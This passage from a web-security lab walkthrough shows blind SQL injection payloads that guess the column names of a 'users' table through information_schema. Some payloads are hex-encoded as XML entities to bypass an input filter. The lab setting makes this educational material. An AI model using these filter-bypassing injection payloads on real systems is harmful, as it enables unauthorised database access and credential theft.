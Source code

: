 ```
&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x43;&#x41;&#x53;&#x45;&#x20;&#x57;&#x48;&#x45;&#x4e;&#x20;&#x28;&#x73;&#x75;&#x62;&#x73;&#x74;&#x72;&#x69;&#x6e;&#x67;&#x28;&#x28;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x63;&#x6f;&#x6c;&#x75;&#x6d;&#x6e;&#x5f;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x69;&#x6e;&#x66;&#x6f;&#x72;&#x6d;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x5f;&#x73;&#x63;&#x68;&#x65;&#x6d;&#x61;&#x2e;&#x63;&#x6f;&#x6c;&#x75;&#x6d;&#x6e;&#x73;&#x20;&#x77;&#x68;&#x65;&#x72;&#x65;&#x20;&#x74;&#x61;&#x62;&#x6c;&#x65;&#x5f;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x3d;&#x20;&#x27;&#x75;&#x73;&#x65;&#x72;&#x73;&#x27;&#x20;&#x6c;&#x69;&#x6d;&#x69;&#x74;&#x20;&#x31;&#x29;&#x2c;&#x31;&#x2c;&#x38;&#x29;&#x3d;&#x27;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x27;&#x29;&#x20;&#x54;&#x48;&#x45;&#x4e;&#x20;&#x31;&#x20;&#x45;&#x4c;&#x53;&#x45;&#x20;&#x32;&#x20;&#x45;&#x4e;&#x44;
```



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/13.png)

Then we send to Intruder:

```
SELECT CASE WHEN (substring((SELECT column_name FROM information_schema.columns where table_name = 'users' limit 1),1,9)='usernameZ') THEN 1 ELSE 2 END
```

But it seems there are not more characters in this column name, it is “username”.



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/14.png)

Next we will find if the second column starts with password:

```
SELECT CASE WHEN (substring((SELECT column_name FROM information_schema.columns where table_name = 'users' and column_name!='username' limit 1),1,8)='password') THEN 1 ELSE 2 END
```

```
&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x43;&#x41;&#x53;&#x45;&#x20;&#x57;&#x48;&#x45;&#x4e;&#x20;&#x28;&#x73;&#x75;&#x62;&#x73;&#x74;&#x72;&#x69;&#x6e;&#x67;&#x28;&#x28;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x63;&#x6f;&#x6c;&#x75;&#x6d;&#x6e;&#x5f;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x69;&#x6e;&#x66;&#x6f;&#x72;&#x6d;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x5f;&#x73;&#x63;&#x68;&#x65;&#x6d;&#x61;&#x2e;&#x63;&#x6f;&#x6c;&#x75;&#x6d;&#x6e;&#x73;&#x20;&#x77;&#x68;&#x65;&#x72;&#x65;&#x20;&#x74;&#x61;&#x62;&#x6c;&#x65;&#x5f;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x3d;&#x20;&#x27;&#x75;&#x73;&#x65;&#x72;&#x73;&#x27;&#x20;&#x61;&#x6e;&#x64;&#x20;&#x63;&#x6f;&#x6c;&#x75;&#x6d;&#x6e;&#x5f;&#x6e;&#x61;&#x6d;&#x65;&#x21;&#x3d;&#x27;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x27;&#x20;&#x6c;&#x69;&#x6d;&#x69;&#x74;&#x20;&#x31;&#x29;&#x2c;&#x31;&#x2c;&#x38;&#x29;&#x3d;&#x27;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x27;&#x29;&#x20;&#x54;&#x48;&#x45;&#x4e;&#x20;&#x31;&#x20;&#x45;&#x4c;&#x53;&#x45;&#x20;&#x32;&#x20;&#x45;&#x4e;&#x44;
```

